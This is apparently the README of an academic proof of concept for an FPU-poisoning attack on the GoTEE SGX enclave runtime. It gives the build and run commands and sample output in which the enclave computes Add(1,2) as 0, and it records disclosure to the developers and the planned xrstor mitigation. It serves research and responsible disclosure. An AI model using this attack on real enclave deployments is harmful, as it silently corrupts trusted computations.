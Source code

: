 # Proof of concept attack on GoTEE

[![build status](https://travis-matrix-badges.herokuapp.com/repos/fritzalder/faulty-point-unit/branches/master/7)](https://travis-ci.org/github/fritzalder/faulty-point-unit)

## Attack Description

The attack is described in more detail in the gotee-fpu fork of the original GoTEE repository. We added additional information on how to execute the attack in `gotee-fpu/example/hello-world/`. The attack itself is contained in the assembly file `gotee-fpu/src/gosec/assembly_amd64.s` where the MXCSR and FPUCW are poisoned manually.

## Install GoTEE

```bash
$ sudo apt-get -yqq install golang
$ cd gotee-fpu
$ go get github.com/aghosn/serializer
$ PATH=$PATH:$HOME/go/bin
$ sudo make
```

## Build and run example attack enclave

We provide a hello-world sample that executes a print from both the untrusted and trusted domains.

Example output showcasing an example run with and without FPU poisoning in an
untrusted domain and enclave, respectively. Notice the faulty result for
`VADDPD` when poisoning the denormals-as-zero MXCSR flag:

```
$ PATH=$PATH:$HOME/go/bin
$ cd example/hello-world/
$ make
$ SIM=1 ./main
From an untrusted domain:
Hello World!
[ENTRY] Control Word: 0x37f
[ENTRY] MXCSR: 0x1fa0

Add(1,2) is 3
[EXIT] Control Word: 0x37f
[EXIT] MXCSR: 0x1fa2
--
From a trusted domain:
[DEBUG] loading the program in simulation.
Cooprt at 0xc4200aa120
Cooprt.Ecall 0xc420080150, Cooprt.Ocall 0xc4200801c0
Unsafe allocation: 7fb2607cd000, size: 1f4000
[DEBUG-INFO] wrapper at 0xc4200c7880
{base: 40000000000, siz: 1000000000, mhstart: 400001ae000, mhsize: 7ffffff}
stack: 4000016f000, ssiz: 8000, tcs: 40000178000, msgx: 40000150000, tls: 40000151000
stack: 4000017f000, ssiz: 8000, tcs: 40000188000, msgx: 40000152000, tls: 40000153000
stack: 4000018f000, ssiz: 8000, tcs: 40000198000, msgx: 40000154000, tls: 40000155000
stack: 4000019f000, ssiz: 8000, tcs: 400001a8000, msgx: 40000156000, tls: 40000157000
Hello World!
[ENTRY] Control Word: 0x1f7f
[ENTRY] MXCSR: 0x1fc0

Add(1,2) is 0
[EXIT] Control Word: 0x1f7f
[EXIT] MXCSR: 0x1fc0
```

Alternatively, to execute the example attack on real SGX hardware, simply proceed as follows:

```
$ ./main
From an untrusted domain:
Hello World!
[ENTRY] Control Word: 0x37f
[ENTRY] MXCSR: 0x1fa0

Add(1,2) is 3
[EXIT] Control Word: 0x37f
[EXIT] MXCSR: 0x1fa2
--
From a trusted domain:
Hello World!
[ENTRY] Control Word: 0x1f7f
[ENTRY] MXCSR: 0x1fe0

Add(1,2) is 0
[EXIT] Control Word: 0x1f7f
[EXIT] MXCSR: 0x1fe0
```

## Disclosure and mitigation

We reported this issue to the GoTEE developers in <https://github.com/epfl-dcsl/gotee/issues/3>. The issue will be mitigated with a full `xrstor` on enclave entry.
